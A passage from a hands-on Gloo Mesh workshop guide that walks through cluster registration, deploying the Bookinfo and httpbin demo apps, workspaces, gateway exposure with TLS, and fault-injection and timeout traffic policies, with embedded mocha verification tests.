  cluster: cluster2
glooAgent:
  enabled: true
  relay:
    serverAddress: "${ENDPOINT_GLOO_MESH}"
    authority: gloo-mesh-mgmt-server.gloo-mesh
telemetryCollector:
  enabled: true
  config:
    exporters:
      otlp:
        endpoint: "${ENDPOINT_TELEMETRY_GATEWAY}"
EOF
```

You can check the cluster(s) have been registered correctly using the following commands:

```
meshctl --kubecontext ${MGMT} check
```

```
pod=$(kubectl --context ${MGMT} -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${MGMT} -n gloo-mesh debug -q -i ${pod} --image=curlimages/curl -- curl -s http://localhost:9091/metrics | grep relay_push_clients_connected
```

You should get an output similar to this:

```
# HELP relay_push_clients_connected Current number of connected Relay push clients (Relay Agents).
# TYPE relay_push_clients_connected gauge
relay_push_clients_connected{cluster="cluster1"} 1
relay_push_clients_connected{cluster="cluster2"} 1
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Cluster registration", () => {
  it("cluster1 is registered", () => {
    podName = helpers.getOutputForCommand({ command: "kubectl -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}' --context " + process.env.MGMT }).replaceAll("'", "");
    command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.MGMT + " -n gloo-mesh debug -q -i " + podName + " --image=curlimages/curl -- curl -s http://localhost:9091/metrics" }).replaceAll("'", "");
    expect(command).to.contain("cluster1");
  });
  it("cluster2 is registered", () => {
    podName = helpers.getOutputForCommand({ command: "kubectl -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}' --context " + process.env.MGMT }).replaceAll("'", "");
    command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.MGMT + " -n gloo-mesh debug -q -i " + podName + " --image=curlimages/curl -- curl -s http://localhost:9091/metrics" }).replaceAll("'", "");
    expect(command).to.contain("cluster2");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/deploy-and-register-gloo-mesh/tests/cluster-registration.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Finally, you need to specify which gateways you want to use for cross cluster traffic:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: global
  namespace: gloo-mesh
spec:
  options:
    eastWestGateways:
      - selector:
          labels:
            istio: eastwestgateway
EOF
```


## Lab 4 - Deploy the Bookinfo demo app <a name="lab-4---deploy-the-bookinfo-demo-app-"></a>
[](https://youtu.be/nzYcrjalY5A "Video Link")

We're going to deploy the bookinfo application to demonstrate several features of Gloo Mesh.

You can find more information about this application [here](https://istio.io/latest/docs/examples/bookinfo/).

Run the following commands to deploy the bookinfo application on `cluster1`:

```bash
curl https://raw.githubusercontent.com/istio/istio/release-1.16/samples/bookinfo/platform/kube/bookinfo.yaml > bookinfo.yaml

kubectl --context ${CLUSTER1} create ns bookinfo-frontends
kubectl --context ${CLUSTER1} create ns bookinfo-backends
kubectl --context ${CLUSTER1} label namespace bookinfo-frontends istio.io/rev=1-17 --overwrite
kubectl --context ${CLUSTER1} label namespace bookinfo-backends istio.io/rev=1-17 --overwrite

# deploy the frontend bookinfo service in the bookinfo-frontends namespace
kubectl --context ${CLUSTER1} -n bookinfo-frontends apply -f bookinfo.yaml -l 'account in (productpage)'
kubectl --context ${CLUSTER1} -n bookinfo-frontends apply -f bookinfo.yaml -l 'app in (productpage)'
kubectl --context ${CLUSTER1} -n bookinfo-backends apply -f bookinfo.yaml -l 'account in (reviews,ratings,details)'
# deploy the backend bookinfo services in the bookinfo-backends namespace for all versions less than v3
kubectl --context ${CLUSTER1} -n bookinfo-backends apply -f bookinfo.yaml -l 'app in (reviews,ratings,details),version notin (v3)'
# Update the productpage deployment to set the environment variables to define where the backend services are running
kubectl --context ${CLUSTER1} -n bookinfo-frontends set env deploy/productpage-v1 DETAILS_HOSTNAME=details.bookinfo-backends.svc.cluster.local
kubectl --context ${CLUSTER1} -n bookinfo-frontends set env deploy/productpage-v1 REVIEWS_HOSTNAME=reviews.bookinfo-backends.svc.cluster.local
# Update the reviews service to display where it is coming from
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v1 CLUSTER_NAME=${CLUSTER1}
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v2 CLUSTER_NAME=${CLUSTER1}
```


<!--bash
until [[ $(kubectl --context ${CLUSTER1} -n bookinfo-frontends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 1 ]]; do
  sleep 1
done
until [[ $(kubectl --context ${CLUSTER1} -n bookinfo-backends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 4 ]]; do
  sleep 1
done
-->

You can check that the app is running using the following command:

```
kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods && kubectl --context ${CLUSTER1} -n bookinfo-backends get pods
```

Note that we deployed the `productpage` service in the `bookinfo-frontends` namespace and the other services in the `bookinfo-backends` namespace.

And we deployed the `v1` and `v2` versions of the `reviews` microservice, not the `v3` version.

Now, run the following commands to deploy the bookinfo application on `cluster2`:

```bash
kubectl --context ${CLUSTER2} create ns bookinfo-frontends
kubectl --context ${CLUSTER2} create ns bookinfo-backends
kubectl --context ${CLUSTER2} label namespace bookinfo-frontends istio.io/rev=1-17 --overwrite
kubectl --context ${CLUSTER2} label namespace bookinfo-backends istio.io/rev=1-17 --overwrite

# deploy the frontend bookinfo service in the bookinfo-frontends namespace
kubectl --context ${CLUSTER2} -n bookinfo-frontends apply -f bookinfo.yaml -l 'account in (productpage)'
kubectl --context ${CLUSTER2} -n bookinfo-frontends apply -f bookinfo.yaml -l 'app in (productpage)'
kubectl --context ${CLUSTER2} -n bookinfo-backends apply -f bookinfo.yaml -l 'account in (reviews,ratings,details)'
# deploy the backend bookinfo services in the bookinfo-backends namespace for all versions
  kubectl --context ${CLUSTER2} -n bookinfo-backends apply -f bookinfo.yaml -l 'app in (reviews,ratings,details)'
# Update the productpage deployment to set the environment variables to define where the backend services are running
kubectl --context ${CLUSTER2} -n bookinfo-frontends set env deploy/productpage-v1 DETAILS_HOSTNAME=details.bookinfo-backends.svc.cluster.local
kubectl --context ${CLUSTER2} -n bookinfo-frontends set env deploy/productpage-v1 REVIEWS_HOSTNAME=reviews.bookinfo-backends.svc.cluster.local
# Update the reviews service to display where it is coming from
kubectl --context ${CLUSTER2} -n bookinfo-backends set env deploy/reviews-v1 CLUSTER_NAME=${CLUSTER2}
kubectl --context ${CLUSTER2} -n bookinfo-backends set env deploy/reviews-v2 CLUSTER_NAME=${CLUSTER2}
kubectl --context ${CLUSTER2} -n bookinfo-backends set env deploy/reviews-v3 CLUSTER_NAME=${CLUSTER2}

```

<!--bash
until [[ $(kubectl --context ${CLUSTER2} -n bookinfo-frontends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 1 ]]; do
  sleep 1
done
until [[ $(kubectl --context ${CLUSTER2} -n bookinfo-backends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 5 ]]; do
  sleep 1
done
-->

You can check that the app is running using:

```bash
kubectl --context ${CLUSTER2} -n bookinfo-frontends get pods && kubectl --context ${CLUSTER2} -n bookinfo-backends get pods
```

As you can see, we deployed all three versions of the `reviews` microservice on this cluster.

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Bookinfo app", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["productpage-v1"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-frontends", k8sObj: deploy }));
  });
  deployments = ["ratings-v1", "details-v1", "reviews-v1", "reviews-v2"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-backends", k8sObj: deploy }));
  });
  cluster = process.env.CLUSTER2
  deployments = ["productpage-v1"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-frontends", k8sObj: deploy }));
  });
  deployments = ["ratings-v1", "details-v1", "reviews-v1", "reviews-v2", "reviews-v3"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-backends", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/deploy-bookinfo/tests/check-bookinfo.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 5 - Deploy the httpbin demo app <a name="lab-5---deploy-the-httpbin-demo-app-"></a>
[](https://youtu.be/w1xB-o_gHs0 "Video Link")

We're going to deploy the httpbin application to demonstrate several features of Gloo Mesh.

You can find more information about this application [here](http://httpbin.org/).


Run the following commands to deploy the httpbin app on `cluster1`. The deployment will be called `not-in-mesh` and won't have the sidecar injected (because we don't label the namespace).

```bash
kubectl --context ${CLUSTER1} create ns httpbin
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: not-in-mesh
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: not-in-mesh
  namespace: httpbin
  labels:
    app: not-in-mesh
    service: not-in-mesh
spec:
  ports:
  - name: http
    port: 8000
    targetPort: 80
  selector:
    app: not-in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: not-in-mesh
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: not-in-mesh
      version: v1
  template:
    metadata:
      labels:
        app: not-in-mesh
        version: v1
    spec:
      serviceAccountName: not-in-mesh
      containers:
      - image: docker.io/kennethreitz/httpbin
        imagePullPolicy: IfNotPresent
        name: not-in-mesh
        ports:
        - containerPort: 80
EOF
```


Then, we deploy a second version, which will be called `in-mesh` and will have the sidecar injected (because of the label `istio.io/rev` in the Pod template).

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: in-mesh
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: in-mesh
  namespace: httpbin
  labels:
    app: in-mesh
    service: in-mesh
spec:
  ports:
  - name: http
    port: 8000
    targetPort: 80
  selector:
    app: in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: in-mesh
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: in-mesh
      version: v1
  template:
    metadata:
      labels:
        app: in-mesh
        version: v1
        istio.io/rev: 1-17
    spec:
      serviceAccountName: in-mesh
      containers:
      - image: docker.io/kennethreitz/httpbin
        imagePullPolicy: IfNotPresent
        name: in-mesh
        ports:
        - containerPort: 80
EOF
```


You can follow the progress using the following command:

```
kubectl --context ${CLUSTER1} -n httpbin get pods
```

```
NAME                           READY   STATUS    RESTARTS   AGE
in-mesh-5d9d9549b5-qrdgd       2/2     Running   0          11s
not-in-mesh-5c64bb49cd-m9kwm   1/1     Running   0          11s
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("httpbin app", () => {
  let cluster = process.env.CLUSTER1
  
  let deployments = ["not-in-mesh", "in-mesh"];
  
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "httpbin", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/deploy-httpbin/tests/check-httpbin.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 6 - Deploy Gloo Mesh Addons <a name="lab-6---deploy-gloo-mesh-addons-"></a>
[](https://youtu.be/_rorug_2bk8 "Video Link")

To use the Gloo Mesh Gateway advanced features (external authentication, rate limiting, ...), you need to install the Gloo Mesh addons.

First, you need to create a namespace for the addons, with Istio injection enabled:

```bash
kubectl --context ${CLUSTER1} create namespace gloo-mesh-addons
kubectl --context ${CLUSTER1} label namespace gloo-mesh-addons istio.io/rev=1-17 --overwrite
kubectl --context ${CLUSTER2} create namespace gloo-mesh-addons
kubectl --context ${CLUSTER2} label namespace gloo-mesh-addons istio.io/rev=1-17 --overwrite
```

Then, you can deploy the addons on the cluster(s) using Helm:

```bash
helm upgrade --install gloo-platform gloo-platform/gloo-platform \
  --namespace gloo-mesh-addons \
  --kube-context=${CLUSTER1} \
  --version 2.4.2 \
 -f -<<EOF
common:
  cluster: cluster1
glooAgent:
  enabled: false
extAuthService:
  enabled: true
  extAuth: 
    apiKeyStorage: 
      name: redis
      enabled: true
      config: 
        connection: 
          host: redis.gloo-mesh-addons:6379
      secretKey: ThisIsSecret
rateLimiter:
  enabled: true
EOF

helm upgrade --install gloo-platform gloo-platform/gloo-platform \
  --namespace gloo-mesh-addons \
  --kube-context=${CLUSTER2} \
  --version 2.4.2 \
 -f -<<EOF
common:
  cluster: cluster2
glooAgent:
  enabled: false
extAuthService:
  enabled: true
  extAuth: 
    apiKeyStorage: 
      name: redis
      enabled: true
      config: 
        connection: 
          host: redis.gloo-mesh-addons:6379
      secretKey: ThisIsSecret
rateLimiter:
  enabled: true
EOF
```

For teams to setup external authentication, the gateways team needs to create and `ExtAuthServer` object they can reference.

Let's create the `ExtAuthServer` object: 

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: ExtAuthServer
metadata:
  name: ext-auth-server
  namespace: gloo-mesh-addons
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: ext-auth-service
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```

For teams to setup rate limiting, the gateways team needs to create and `RateLimitServerSettings` object they can reference.

Let's create the `RateLimitServerSettings` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerSettings
metadata:
  name: rate-limit-server
  namespace: gloo-mesh-addons
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```

This is what the environment looks like now:


## Lab 7 - Create the gateways workspace <a name="lab-7---create-the-gateways-workspace-"></a>
[](https://youtu.be/QeVBH0eswWw "Video Link")

We're going to create a workspace for the team in charge of the Gateways.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `gateways` workspace which corresponds to the `istio-gateways` and the `gloo-mesh-addons` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: gateways
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
  - name: cluster2
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
EOF
```

Then, the Gateway team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `gateways` workspace (so the `istio-gateways` or the `gloo-mesh-addons` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: gateways
  namespace: gloo-mesh-addons
spec:
  importFrom:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
    - kind: ALL
      labels:
        expose: "true"
  exportTo:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
EOF
```

The Gateway team has decided to import the following from the workspaces that have the label `allow_ingress` set to `true` (using a selector):
- all the Kubernetes services exported by these workspaces
- all the resources (RouteTables, VirtualDestination, ...) exported by these workspaces that have the label `expose` set to `true`


## Lab 8 - Create the bookinfo workspace <a name="lab-8---create-the-bookinfo-workspace-"></a>

We're going to create a workspace for the team in charge of the Bookinfo application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `bookinfo` workspace which corresponds to the `bookinfo-frontends` and `bookinfo-backends` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: bookinfo
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
  - name: cluster2
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
EOF
```

Then, the Bookinfo team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `bookinfo` workspace (so the `bookinfo-frontends` or the `bookinfo-backends` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Bookinfo team has decided to export the following to the `gateway` workspace (using a reference):
- the `productpage` and the `reviews` Kubernetes services
- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`

This is how the environment looks like with the workspaces:


## Lab 9 - Expose the productpage through a gateway <a name="lab-9---expose-the-productpage-through-a-gateway-"></a>
[](https://youtu.be/emyIu99AOOA "Video Link")

In this step, we're going to expose the `productpage` service through the Ingress Gateway using Gloo Mesh.

The Gateway team must create a `VirtualGateway` to configure the Istio Ingress Gateway in cluster1 to listen to incoming requests.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
EOF

```

Then, the Gateway team should create a parent `RouteTable` to configure the main routing.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
        sortMethod: ROUTE_SPECIFICITY
EOF
```

In this example, you can see that the Gateway team is delegating the routing details to the `bookinfo` and `httpbin` workspaces. The teams in charge of these workspaces can expose their services through the gateway.

The Gateway team can use this main `RouteTable` to enforce a global WAF policy, but also to have control on which hostnames and paths can be used by each application team.

Then, the Bookinfo team can create a `RouteTable` to determine how they want to handle the traffic.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  http:
    - name: productpage
      matchers:
      - uri:
          exact: /productpage
      - uri:
          prefix: /static
      - uri:
          prefix: /api/v1/products
      forwardTo:
        destinations:
          - ref:
              name: productpage
              namespace: bookinfo-frontends
              cluster: cluster1
            port:
              number: 9080
EOF
```

You should now be able to access the `productpage` application through the browser.

Get the URL to access the `productpage` service using the following command:
```
echo "http://${ENDPOINT_HTTP_GW_CLUSTER1}/productpage"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (HTTP)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: 'http://' + process.env.ENDPOINT_HTTP_GW_CLUSTER1, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/gateway-expose/tests/productpage-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Gloo Mesh translates the `VirtualGateway` and `RouteTable` into the corresponding Istio objects (`Gateway` and `VirtualService`).

Now, let's secure the access through TLS.

Let's first create a private key and a self-signed certificate:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"
```

Then, you have to store them in a Kubernetes secrets running the following commands:

```bash
kubectl --context ${CLUSTER1} -n istio-gateways create secret generic tls-secret \
--from-file=tls.key=tls.key \
--from-file=tls.crt=tls.crt

kubectl --context ${CLUSTER2} -n istio-gateways create secret generic tls-secret \
--from-file=tls.key=tls.key \
--from-file=tls.crt=tls.crt
```

Finally, the Gateway team needs to update the `VirtualGateway` to use this secret:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
# ---------------- Redirect to https --------------------
      httpsRedirect: true
# -------------------------------------------------------
    - http: {}
# ---------------- SSL config ---------------------------
      port:
        number: 443
      tls:
        parameters:
          minimumProtocolVersion: TLSv1_3
        mode: SIMPLE
        secretName: tls-secret
# -------------------------------------------------------
      allowedRouteTables:
        - host: '*'

EOF
```

You can now access the `productpage` application securely through the browser.

Notice that we specificed a minimumProtocolVersion, so if the client is trying to use an deprecated TLS version the request will be denied.

To test this, we can try to send a request with `tlsv1.2`:

```console
curl --tlsv1.2 --tls-max 1.2 --key tls.key --cert tls.crt https://${ENDPOINT_HTTPS_GW_CLUSTER1}/productpage -k
```

You should get the following output:

```nocopy
curl: (35) error:1409442E:SSL routines:ssl3_read_bytes:tlsv1 alert protocol version
```

Now, you can try the most recent `tlsv1.3`:

```console
curl --tlsv1.3 --tls-max 1.3 --key tls.key --cert tls.crt https://${ENDPOINT_HTTPS_GW_CLUSTER1}/productpage -k
```

And after this you should get the actual Productpage.
Get the URL to access the `productpage` service using the following command:
```
echo "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/productpage"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (HTTPS)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/gateway-expose/tests/productpage-available-secure.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Otel metrics", () => {
  it("cluster1 is sending metrics to telemetryGateway", () => {
    podName = helpers.getOutputForCommand({ command: "kubectl -n gloo-mesh get pods -l app=prometheus -o jsonpath='{.items[0].metadata.name}' --context " + process.env.MGMT }).replaceAll("'", "");
    command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.MGMT + " -n gloo-mesh debug -q -i " + podName + " --image=curlimages/curl -- curl -s http://localhost:9090/api/v1/query?query=istio_requests_total" }).replaceAll("'", "");
    expect(command).to.contain("cluster\":\"cluster1");
  });
});


EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/gateway-expose/tests/otel-metrics.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=150 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

This diagram shows the flow of the request (through the Istio Ingress Gateway):


## Lab 10 - Traffic policies <a name="lab-10---traffic-policies-"></a>
[](https://youtu.be/ZBdt8WA0U64 "Video Link")

We're going to use Gloo Mesh policies to inject faults and configure timeouts.

Let's create the following `FaultInjectionPolicy` to inject a delay when the `v2` version of the `reviews` service talk to the `ratings` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: FaultInjectionPolicy
metadata:
  name: ratings-fault-injection
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        fault_injection: "true"
  config:
    delay:
      fixedDelay: 2s
      percentage: 100
EOF
```

As you can see, it will be applied to all the routes that have the label `fault_injection` set to `"true"`.

So, you need to create a `RouteTable` with this label set in the corresponding route.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: ratings
  namespace: bookinfo-frontends
spec:
  hosts:
    - 'ratings.bookinfo-backends.svc.cluster.local'
  workloadSelectors:
  - selector:
      labels:
        app: reviews
  http:
    - name: ratings
      labels:
        fault_injection: "true"
      matchers:
      - uri:
          prefix: /
      forwardTo:
        destinations:
          - ref:
              name: ratings
              namespace: bookinfo-backends
            port:
              number: 9080
EOF
```

If you refresh the webpage, you should see that it takes longer to get the `productpage` loaded when version `v2` of the `reviews` services is called.

Now, let's configure a 0.5s request timeout when the `productpage` service calls the `reviews` service on cluster1.

You need to create the following `RetryTimeoutPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: RetryTimeoutPolicy
metadata:
  name: reviews-request-timeout
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        request_timeout: "0.5s"
  config:
    requestTimeout: 0.5s
EOF
```

As you can see, it will be applied to all the routes that have the label `request_timeout` set to `"0.5s"`.

Then, you need to create a `RouteTable` with this label set in the corresponding route.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: reviews
  namespace: bookinfo-frontends
spec:
  hosts:
    - 'reviews.bookinfo-backends.svc.cluster.local'
  workloadSelectors:
  - selector:
      labels:
        app: productpage
  http:
    - name: reviews
      labels:
        request_timeout: "0.5s"
      matchers:
      - uri:
          prefix: /
      forwardTo:
        destinations:
          - ref:
              name: reviews
              namespace: bookinfo-backends
            port:
              number: 9080
            subset:
              version: v2
EOF
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const chaiHttp = require("chai-http");
chai.use(chaiHttp);

process.env.NODE_TLS_REJECT_UNAUTHORIZED = '0';

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

let searchTest="Sorry, product reviews are currently unavailable for this book.";

describe("Reviews shouldn't be available", () => {
  it("Checking text '" + searchTest + "' in cluster1", async () => {
    await chai.request('https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1)
      .get('/productpage')
      .send()
      .then((res) => {
        expect(res.text).to.contain(searchTest);
      });
  });

});

EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/traffic-policies/tests/traffic-policies-reviews-unavailable.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

If you refresh the page several times, you'll see an error message telling that reviews are unavailable when the productpage is trying to communicate with the version `v2` of the `reviews` service.


This diagram shows where the timeout and delay have been applied:



Let's delete the Gloo Mesh objects we've created:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete faultinjectionpolicy ratings-fault-injection
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete routetable ratings
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete retrytimeoutpolicy reviews-request-timeout
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete routetable reviews
```


## Lab 11 - Create the Root Trust Policy <a name="lab-11---create-the-root-trust-policy-"></a>
[](https://youtu.be/-A2U2fYYgrU "Video Link")

To allow secured (end-to-end mTLS) cross cluster communications, we need to make sure the certificates issued by the Istio control plane on each cluster are signed with intermediate certificates which have a common root CA.

Gloo Mesh fully automates this process.

Run this command to see how the communication between microservices occurs currently:

```
kubectl --context ${CLUSTER1} exec -t -n bookinfo-backends deploy/reviews-v1 \
-- openssl s_client -showcerts -connect ratings:9080 -alpn istio
```

Now, the output should be like that:

```,nocopy
...
Certificate chain
 0 s:
   i:O = cluster1
-----BEGIN CERTIFICATE-----
MIIDFzCCAf+gAwIBAgIRALsoWlroVcCc1n+VROhATrcwDQYJKoZIhvcNAQELBQAw
...
BPiAYRMH5j0gyBqiZZEwCfzfQe1e6aAgie9T
-----END CERTIFICATE-----
 1 s:O = cluster1
   i:O = cluster1
-----BEGIN CERTIFICATE-----
MIICzjCCAbagAwIBAgIRAKIx2hzMbAYzM74OC4Lj1FUwDQYJKoZIhvcNAQELBQAw
...
uMTPjt7p/sv74fsLgrx8WMI0pVQ7+2plpjaiIZ8KvEK9ye/0Mx8uyzTG7bpmVVWo
ugY=
-----END CERTIFICATE-----
...
```

Now, run the same command on the second cluster:

```
